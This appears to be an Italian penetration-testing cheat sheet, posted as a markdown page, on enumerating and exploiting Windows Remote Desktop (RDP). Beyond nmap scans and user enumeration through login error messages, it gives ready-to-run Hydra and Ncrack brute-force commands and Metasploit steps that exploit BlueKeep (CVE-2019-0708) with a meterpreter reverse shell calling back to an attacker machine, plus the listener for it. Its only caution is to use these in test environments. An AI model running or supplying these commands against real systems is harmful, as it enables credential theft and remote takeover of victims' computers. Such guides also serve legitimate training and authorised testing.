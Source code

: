 # RDP Enumeration & Exploitation

**RDP (Remote Desktop Protocol)** è un protocollo sviluppato da Microsoft che consente l’accesso remoto a un desktop grafico su macchine Windows. <br>
Opera sulla porta `3389/TCP` e se mal configurato o affetto da vulnerabilità note, può rappresentare un punto di accesso privilegiato per un attaccante.

---

## Fase 1 – Scansione del Servizio RDP

Per verificare la presenza del servizio RDP:
`nmap -p 3389 -sV <IP>`

Per ottenere informazioni aggiuntive tramite NTLM:
`nmap -p 3389 --script rdp-ntlm-info <IP>`

Questo script può restituire:
- Nome del dominio
- Nome macchina
- Versione del sistema operativo

Questi dati possono essere utili anche senza autenticazione.

---

## Fase 2 – Connessione Manuale e Osservazioni

Tentativi di connessione con:
- Linux: `xfreerdp /v:<IP>`
- Kali: `rdesktop <IP>`
- Windows: `mstsc.exe`

Osservazioni da fare:
- Prompt di login
- Banner informativi
- Errori che rivelano dettagli su utenti, domini, o configurazioni

Esempi di messaggi utili:
- “Utente non autorizzato” ⟶ utente esiste ma non ha accesso remoto
- “Username o password errata” ⟶ username valido
- “Nessun dominio specificato” ⟶ server non è parte di un dominio

---

## Fase 3 – Enumerazione Utenti tramite Timing

Alcuni strumenti tentano di identificare utenti validi in base al tempo di risposta del servizio RDP durante una connessione fallita. Tecnica simile all’enumerazione utenti su SSH.

Strumenti utili:
- `rdp-sec-check`
- `Crowbar` (per brute-force RDP)

---

## Fase 4 – Brute-force Credenziali RDP

⚠️ Attenzione: il brute-force su RDP può attivare sistemi di difesa (lockout, log, allarmi).

Con Hydra:
`hydra -t 4 -V -f -l <user> -P <wordlist> rdp://<IP>`

Con Ncrack:
`ncrack -p 3389 -u <user> -P <wordlist> <IP>`

Utilizzare solo in ambienti controllati.

---

## Fase 5 – Verifica Vulnerabilità BlueKeep (CVE-2019-0708)

**BlueKeep** è una vulnerabilità critica che permette RCE senza autenticazione sfruttando un buffer overflow nel servizio RDP. Colpisce Windows XP, Server 2003, Windows 7 e Server 2008.

Verifica presenza della porta:
`nmap -p 3389 <IP>`

Verifica vulnerabilità:
- `nmap -p 3389 --script rdp-vuln-ms12-020 <IP>` ⟶ può indicare anomalie
- `nmap -p 3389 --script rdp-vuln-cve2019-0708 <IP>` ⟶ verifica specifica BlueKeep

Con Metasploit:
`use auxiliary/scanner/rdp/cve_2019_0708_bluekeep`
`set RHOSTS <IP>`
`run`

Visualizza i target supportati:
`show targets`
`set target <numero>`

---

## Fase 6 – Exploiting di BlueKeep con Metasploit

Modulo di exploit:
`use exploit/windows/rdp/cve_2019_0708_bluekeep_rce`
`set RHOSTS <IP>`
`set RPORT 3389`
`set payload windows/x64/meterpreter/reverse_tcp`
`set LHOST <KaliIP>`
`set LPORT <Port>`
`run`

⚠️ Estremamente instabile: usare solo in ambienti di test.

---

## Fase 7 – Listener Metasploit

Per ricevere la reverse shell:
`use multi/handler` <br>
`set payload windows/x64/meterpreter/reverse_tcp` <br>
`set LHOST <KaliIP>` <br>
`set LPORT <Port>` <br>
`run`

---
